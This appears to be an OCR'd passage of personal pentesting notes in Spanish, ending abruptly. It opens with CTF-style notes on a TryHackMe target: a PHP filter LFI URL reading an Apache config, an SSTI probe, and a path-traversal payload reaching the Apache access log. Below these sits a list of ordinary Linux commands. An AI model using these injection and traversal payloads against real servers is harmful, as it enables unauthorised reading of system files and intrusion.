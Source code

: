 /proc/net/tcp para ver los puertos abiertos.

[http://vulnnet.thm/?referer=php://filter/convert.base64-encode/resource=/etc/apache2/apache2.conf](http://vulnnet.thm/?referer=php://filter/convert.base64-encode/resource=/etc/apache2/apache2.conf)



[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection)

Java LFI

{{7\*7}}

Hello 49



Si está restringido el ../.. Se puede usar algo así.

view=/var/www/html/development\_testing **/.././.././../** log/apache2/access.log







# LINUX - Comandos útiles

jueves, 7 de mayo de 2020

14:41

Para revisar espacio en disco

df -h -\&gt;muestra el espacio usado y libre de cada filesystem

du -sh \* --\&gt;muestra el tamaño de cada carpeta del directorio donde estamos actualmente.

Para agregar al history la hora y fecha de las acciones (sirve para auditar)

echo &quot;export HISTTIMEFORMAT= &#39;%F %T : &#39;&quot; \&gt;\&gt; $HOME/.bashrc

para instalar requerimientos de un software descargado.

Pip install -r requeriments.txt

Para actualiza la lista de versiones y luego actualiza todo lo que necesite actualizar.

apt update &amp;&amp; apt dist-upgrade

Si es que la instalación se pega o falla.

sudo apt -f install

Configura kali para que lo que encuentra grep se ponga rojo

export GREP\_OPTIONS=&#39;--color=auto&#39;

Decifrar de base64

echo SmFpclBhbG1h | base64 -d

Para quitar los saltos de linea en un archivo para dejarlos uno al lado del otro
